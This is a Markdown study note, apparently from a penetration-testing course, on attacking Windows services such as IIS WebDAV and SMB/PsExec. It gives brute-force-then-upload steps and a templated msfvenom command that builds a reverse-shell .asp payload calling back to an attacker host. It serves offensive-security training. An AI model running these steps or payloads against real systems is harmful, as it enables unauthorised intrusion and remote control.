



# 🪟 Windows Attacks

## Windows Vulnerabilities

[Windows O.S.](https://www.microsoft.com/en-us/windows) is a prime target for attackers given the threat surface and its popularity.

Most of the Windows vulnerabilities **exploits** are publicly available, making them simple to use.

- Threat surface is fragmented, depending on the Win O.S. version.
- The older the O.S. version, the more vulnerable to attacks.
- All of Windows operating systems share a similarity according to the development model.
  - `C` programming language - leads to buffer overflows, arbitrary code execution, etc
  - No default security practices applied - must be sistematically handled by the company
  - Patching by Microsoft is not immediate, or versions are out of support/patching
- To name a few, Windows `XP`, `7`, `Server 2008` and Server 2012, are still used by many companies and are *largerly vulnerable*, leaving the systems open to new attack vectors.
  - Cross platform vulnerabilities, `e.g.` SQL injections, cross-site scripting (on IIS web servers)
- Physical attacks, `e.g.` malicious USB drives, theft, etc

### Vulns Types

|           Vulnerability           |                                                              |
| :-------------------------------: | :----------------------------------------------------------- |
|   **`Information Disclosure`**    | allows an attacker to access confidential data               |
|      **`Buffer Overflows`**       | programming error that allows an attacker to write data to a buffer and overrun the allocated buffer, therefore writing malicious data to allocated memory addresses |
| **`Remote Code Execution (RCE)`** | allows an attacker to remotely execute code on the target    |
|    **`Privilege Escalation`**     | allows an attacker to elevate their privileges after initial compromise |
|   **`Denial of Service (DoS)`**   | allows an attacker to flood a target consuming its resources (CPU, RAM, Network ...), interrupting the system's normal functioning, resulting in denial of service to other users |

## Services Exploitation

Windows has various standard native services and protocols configured or not on a host. When active, they provide an attacker with an **access vector**.

| Protocol/Service                                             | Ports                                   | Purpose                                                      |
| ------------------------------------------------------------ | --------------------------------------- | ------------------------------------------------------------ |
| [Microsoft **IIS**](https://www.iis.net/) (**I**nternet **I**nformation **S**ervices) | TCP `80`/`443`                          | Microsoft Web server for Windows, hosting web applications   |
| [**WebDAV**](https://learn.microsoft.com/en-us/windows/win32/webdav/webdav-portal) (**W**eb **D**istributed **A**uthoring & **V**ersioning) | TCP `80`/`443`                          | HTTP extension that allows clients to copy, move, delete and update files on a web server. Used to enable a web server to act as a *file server* |
| [**SMB**](https://learn.microsoft.com/en-us/windows-server/storage/file-server/file-server-smb-overview)/CIFS (**S**erver **M**essage **B**lock) | TCP `445` / on top of NetBios `137-139` | Network file and peripherals sharing protocol, betweend computers on a local network (LAN) |
| [**RDP**](https://learn.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (**R**emote **D**esktop **P**rotocol) | TCP `3389`                              | GUI remote access protocol used to remotely authenticate and interact with Windows *(Disabled by default)* |
| [**WinRM**](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) (**W**indows **R**emote **M**anagement **P**rotocol) | TCP `5986`/`443`                        | Used to facilitate remote access with Windows systems, execute remote commands |

### IIS WebDAV

🗒️ [Microsoft **IIS**](https://www.iis.net/) (**I**nternet **I**nformation **S**ervices) - a Microsoft proprietary extensible web server developed for use with Windows.

- Ports: **`80`** (no certificate), **`443`** (with SSL Certificate)
- Host websites and web applications
- Administrative GUI for IIS management
-  Static and dynamic web pages, developed in `ASP.NET` and `PHP`
- Supported file extensions: `.asp`, `.aspx`, `.config`, `.php`

🗒️ [**WebDAV**](https://learn.microsoft.com/en-us/windows/win32/webdav/webdav-portal) (**W**eb **D**istributed **A**uthoring & **V**ersioning) - a set of HTTP protocol extentions used by users to manage file on remote web servers.

- Web server as `File server`
- Runs on top of Apache or IIS - ports `80`/`443`
- Credentials, `username` & `password`, are necessary for connection the WebDAV server

#### WebDAV Exploitation

1. Check *if WebDAV is configured* to run on the IIS web server.
2. **Brute-force attack** on the WebDAV server - *identify legitimate credentials*.
3. Use the obtained credentials to *authenticate with the WebDAV* and upload malicious code, like an `.asp` **payload**, used to execute arbitrary commands or obtain **reverse shell** on the target.

#### Tools

> [**`davtest`**](https://www.kali.org/tools/davtest) - scanner tool used to *scan, authenticate and exploit a WebDAV server, by uploading test executable files which allow for command execution on the target.* Pre-installed on Kali Linux and Parrot OS.

```bash
davtest -url <URL>
```



> [**`cadaver`**](https://www.kali.org/tools/cadaver/) - supports file *upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking*. Pre-installed on Kali Linux and Parrot OS.

```bash
cadaver [OPTIONS] <URL>
```



> [**`msfvenom`**](https://www.kali.org/tools/metasploit-framework/#msfvenom) - a Metasploit standalone payload generator and encoder

```bash
msfvenom -p <PAYLOAD> LHOST=<LOCAL_HOST_IP> LPORT=<PORT> -f <file_type> > shell.asp
```



> 🔬 Check some hands-on labs in the [IIS - WebDAV section](windows-attacks/iis-webdav.md)

### SMB

🗒️ [**SMB**](https://learn.microsoft.com/en-us/windows-server/storage/file-server/file-server-smb-overview) (Server Message Block) - a network file sharing protocol, used for files and peripherals sharing, on Windows

- Ports: **`445`** (TCP), **`139`** (NetBIOS)
- Two levels of authentication to access a share:
  - *User Authentication* -  `username` & `password`
  - *Share Authentication* - `password`
  - both utilize a challenge response authentication system

🗒️ **SAMBA** is the open source *Linux* SMB

- it allows Windows systems to access Linux shares

#### SMB Authentication

1. Auth request from the client to the server
2. The server request the client to encrypt string with user's hash
3. The client sends the encrypted string to the server
4. The server checks the actual string value of that users matches the client's one, and grant access. It doesn't match access is denied

#### PsExec

> [**`psexec`**](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) - a light-weight telnet-replacement that lets you execute processes on remote systems, complete with full interactivity for console applications, using any user's credentials

- PsExec authentication is performed via SMB
- Run arbitrary commands or a remote command prompt
- Commands are sent via **`CMD`** (without a GUI like `RDP`)
- Legitimate user account and passwords/hashes are necessary to gain Windows target access

#### PsExec Exploitation

1. Leverage various techniques, `e.g.` **SMB login brute-force** attack.
2. Narrow down the attack to only common Win user accounts, `e.g.` **Administrator**.
3. Use the obtained credentials to authenticate via **`PsExec`** and execute system commands or get a reverse shell.

> 🔬 Check some hands-on labs in the [SMB - PsExec section](windows-attacks/smb-psexec.md)

### RDP


### WinRM


## Win Kernel Exploits

### UAC Bypass

### Access Token Impersonation

### Data Streams

### Password Hashes

### Passwords Configuration Files

### Mimikats Hashes Dumping

### Pass-The-Hash